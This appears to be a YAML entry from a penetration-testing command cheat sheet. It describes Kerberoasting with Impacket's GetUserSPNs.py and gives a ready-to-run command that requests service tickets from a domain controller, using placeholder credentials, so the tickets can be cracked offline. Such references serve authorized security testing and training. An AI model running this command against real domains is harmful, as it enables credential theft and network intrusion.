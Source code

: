```yaml
---
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1
  
  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
---
```

